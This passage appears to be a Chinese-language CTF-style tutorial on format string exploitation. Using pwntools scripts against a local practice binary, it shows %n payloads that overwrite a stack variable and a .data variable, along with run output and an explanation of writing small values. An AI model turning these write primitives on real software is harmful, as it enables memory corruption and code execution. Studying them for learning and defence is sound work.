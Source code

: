 具体脚本如下

```python
def forc():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 74806
0xfffd8cdc
܌��%012d%6$n
܌��-00000160648modified c.
```

## 覆盖任意地址内存

### 覆盖小数字

首先，我们来考虑一下如何修改data段的变量为一个较小的数字，比如说，**小于机器字长的数字**。这里以2为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个(4或8)字节。显然，无论之后如何输出，都只会比4大。

> 获取我们可以使用整形溢出来修改对应的地址的值，但是这样将面临着我们得一次输出大量的内容。而这，一般情况下，基本都不会攻击成功。

那么我们应该怎么做呢？再仔细想一下，我们有必要将所要覆盖的变量的地址放在字符串的最前面么？似乎没有，我们当时只是为了寻找偏移，所以才把tag放在字符串的最前面，如果我们把tag放在中间，其实也是无妨的。类似的，我们把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。前面已经说了我们的格式化字符串的为第6个参数。由于我们想要把2写到对应的地址处，故而格式化字符串的前面的字节必须是

```text
aa%k$n
```

此时对应的存储的格式化字符串已经占据了6个字符的位置，如果我们再添加两个字符aa，那么其实aa%k就是第6个参数，$naa其实就是第7个参数，后面我们如果跟上我们要覆盖的地址，那就是第8个参数，所以如果我们这里设置k为8，其实就可以覆盖了。

利用ida可以得到a的地址为0x0804A024

```assembly
.data:0804A024                 public a
.data:0804A024 a               dd 7Bh  
```

故而我们可以构造如下的利用代码

```python
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
